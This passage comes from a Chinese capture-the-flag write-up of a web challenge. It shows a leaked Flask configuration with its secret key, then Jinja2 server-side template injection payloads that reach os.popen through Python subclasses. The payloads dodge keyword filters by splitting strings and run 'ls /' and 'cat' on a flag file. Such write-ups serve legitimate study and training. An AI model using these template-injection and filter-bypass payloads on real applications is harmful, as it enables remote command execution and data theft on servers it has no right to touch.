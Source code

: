 ```
 &lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: True, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;s_e_c_r_e_t_k_e_y&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(days=31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(seconds=43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;BOOTSTRAP_USE_MINIFIED&#39;: True, &#39;BOOTSTRAP_CDN_FORCE_SSL&#39;: False, &#39;BOOTSTRAP_QUERYSTRING_REVVING&#39;: True, &#39;BOOTSTRAP_SERVE_LOCAL&#39;: False, &#39;BOOTSTRAP_LOCAL_SUBDOMAIN&#39;: None}&gt;
 
SECRET_KEY: s_e_c_r_e_t_k_e_y
```

这里拿爆出来的`SECRET_KEY`使用脚本解密了几个`session`,并没有得到什么有价值的信息:

![image-20221024160704060](/images/buuctf-web2/image-20221024160704060.png)



继续试试payload:

```
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__']['__import__']('os').__dict__['popen']('ls /').read() }}
{%endif%}
{%endfor%}
执行时会爆nonono, 使用字符串拼接的方法一个一个排除关键词:
将import, os, popen都换成字符串拼接的形式后,执行成功
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').__dict__['po'+'pen']('ls /').read() }}
{%endif%}
{%endfor%}
输出:
app bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys this_is_the_flag.txt tmp usr var
接下来读取flag: (这里发现flag也被过滤了,所以用同样的方法绕过):
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').__dict__['po'+'pen']('cat /this_is_the_fl'+'ag.txt').read() }}
{%endif%}
{%endfor%}
```
